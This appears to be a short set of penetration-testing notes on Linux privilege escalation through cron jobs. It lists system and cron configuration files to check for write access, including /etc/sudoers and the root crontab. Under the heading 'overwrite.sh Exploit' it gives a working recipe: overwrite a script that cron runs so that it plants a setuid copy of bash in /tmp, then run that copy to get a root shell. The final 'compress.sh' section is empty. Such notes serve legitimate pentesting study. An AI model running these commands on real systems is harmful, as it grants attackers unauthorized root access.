 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   ### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p




   ## compress.sh
   
     
